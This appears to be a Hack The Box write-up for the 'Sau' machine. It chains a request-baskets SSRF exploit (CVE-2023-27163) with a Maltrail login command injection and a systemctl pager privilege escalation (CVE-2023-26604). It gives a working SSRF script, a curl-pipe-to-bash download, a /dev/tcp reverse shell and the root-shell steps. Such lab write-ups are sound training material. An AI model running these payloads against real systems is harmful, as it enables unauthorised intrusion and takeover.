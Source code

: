```yaml
---
title: "HTB • Sau"
tags:
  - "Beginner"
  - "Linux"
  - "Easy Difficulty"
  - "Web"
  - "CVE"
  - "SSRF"
  - "Sudo"
excerpt: "Sau is an easy machine on Hack The Box that involves web exploitation, Server Side Request Forgery (SSRF), Common Vulnerabilities and Exposures (CVEs), and Sudo policy exploitation."
categories:
  - "Writeups"
  - "Hack the Box Machines"
img_path: "/assets/img/post/htb-machines-sau/"
---
```



Sau is an easy Linux-based [**Hack the Box**](https://app.hackthebox.com/machines/Sau) machine created by [**sau123**](https://app.hackthebox.com/users/201596) that involves web exploitation, Server Side Request Forgery (SSRF), Common Vulnerabilities and Exposures (CVEs), and Sudo policy exploitation. A port scan initially revealed an HTTP server vulnerable to an SSRF bug tracked as **CVE-2023-27163**. The vulnerability was exploited to contact an internal HTTP server running an outdated version of Mailtrail prone to shell command injection, which we used to establish a reverse shell as _puma_. The sudo policy for this user allowed us to exploit **CVE-2023-26604** and gain execution as root.

## Initial Recon

We began by conducting a full TCP port scan using a tuned nmap command. This command quickly and reliably scans for any relevant TCP ports on the target.

~~~zsh
# Run a thorough port scan
nmap "10.10.11.224" -vv -Pn -sT -sV -n -p- -T4 --min-rate=1000 --max-retries=3
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

The scan reported two open ports and two filtered ports:

| State    | Transport | Port  | Protocol | Product | Version                 |
|:---------|:----------|:------|:---------|:--------|-------------------------|
| Open     | TCP       | 22    | SSH      | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.7 |
| Filtered | TCP       | 80    |          |         |  |
| Filtered | TCP       | 8338  |          |         |  |
| Open     | TCP       | 55555 | HTTP     |         |  |


## Web

We first navigated to <http://10.10.11.224:55555> which prompted a redirection to [/web](http://10.10.11.224:55555/web). On this page we noticed a footer indicating that the site was powered by **[request-baskets](https://github.com/darklynx/request-baskets) version 1.2.1**.

![Website on port 55555](web-baskets.png)
![Website version fingerprint](web-baskets-fingerprint.png)

We searched for CVEs affecting this installation and found an SSRF bug, **CVE-2023-27163**. The [CVEDetails page](https://www.cvedetails.com/cve/CVE-2023-27163/) for this bug provided a vulnerability description along with a link to additional exploitation details.

> request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.


### CVE-2023-27163

According to the brief [proof-of-concept](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3) referenced on the dedicated CVEDetails page, a special HTTP POST request should be made to `/api/baskets/*`{:.filepath} to create a new basket and set a forwarding URL. A simple shell script was made to streamline this process.

~~~zsh
#!/usr/bin/env zsh
[ $# -lt 1 ] && echo 'Usage: ./ssrf-curl <URL> [OPTS ...]' && exit 1

echo '{"proxy_response":true,"expand_path":true}' |
  jq -c --arg a "$1" '.forward_url=$a' |
  read json

basket=$(openssl rand -hex 8)
curl -so /dev/null -d "$json" "http://10.10.11.224:55555/api/baskets/${basket}"
curl -s "http://10.10.11.224:55555/${basket}" ${@:2}
~~~
{:file="ssrf.zsh"}


### Mailtrail

We used this script to indirectly access the HTTP server on port 80, since it cannot be accessed directly. A simple HTTP GET request was sent to verify the existence of the HTTP server and collect information.

~~~zsh
# Test SSRF script
zsh ssrf.zsh http://localhost:80 -i | more
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~http
HTTP/1.1 200 OK
Cache-Control: no-cache
Connection: close
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
Content-Type: text/html
Date: Thu, 28 Dec 2023 08:44:05 GMT
Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
Server: Maltrail/0.53
Transfer-Encoding: chunked

<!DOCTYPE html>
...
~~~
{:file="bryan@redteam ➤ zsh • STDOUT" .nolineno}

A software fingerprint was found in the HTTP "Server" header with the value "Maltrail/0.53". We searched the web for vulnerabilities affecting this version and found an OS command injection flaw [disclosed here](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

> ##### Description
> Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process.**
> ##### Summary
> [...] An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.
> ##### Proof of Concept
> ``curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'``

It looks like the installed version can be exploited through the _username_ parameter on the login endpoint at <http://localhost/login>, which can be accessed with the SSRF script. We started a [PwnCat](https://pypi.org/project/pwncat-cs/) listener and proceeded to execute a simple bash reverse shell downloaded over HTTP.

~~~zsh
# Start PwnCat listener
lhost="10.10.14.2" # Change to your assigned VPN IP address
pwncat-cs -l $lhost 8443 # Install: `python3 -m pip install pwncat-cs`

# [In another session] Serve reverse shell over HTTP
lhost="10.10.14.2" # Change to your assigned VPN IP address
mkdir ./http-share && echo "bash -i >& /dev/tcp/${lhost}/8443 <&1" > http-share/index.html
http-server ./http-share -p 8080 -a $lhost # Install: `npm install -g http-server`

# [In another session] Trigger command execution
lhost="10.10.14.2" # Change to your assigned VPN IP address
zsh ssrf.zsh http://localhost:80/login -i -d "username=\`curl ${lhost}:8080|bash\`"
~~~
{:file="bryan@redteam • zsh" .nolineno}


## Privilege Escalation

With execution as the user _puma_, We found a custom sudo policy that allows us to execute a particular command as any user without the password for _puma_.

~~~bash
# Display sudo policy
sudo -l
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

~~~text
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash • STDOUT" .nolineno}

### CVE-2023-26604

The command we can run in a privileged context is `/usr/bin/systemctl status trail.service`. After searching the web for known vulnerabilities in systemd/systemctl, a fairly recent privilege escalation CVE tracked as [CVE-2023-26604](https://www.cvedetails.com/cve/CVE-2023-26604/) was found.

> systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

We checked the systemd version and noticed that the vulnerable version **systemd 245** was installed.

~~~bash
# Check if systemd version is vulnerable
/usr/bin/systemctl --version
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

~~~text
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash • STDOUT" .nolineno}


#### Exploitation

To exploit CVE-2023-26604, the terminal height was lowered as described in the CVE description, and the allowed sudo command was executed. From the pager we simply entered `!sh` to spawn a root shell.

~~~bash
# execute systemctl with lower resolution to spawn pager
stty rows 1 && sudo systemctl status trail.service
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

![Privilege escalation demo](privesc.gif)
_Exploitation of CVE-2023-26604_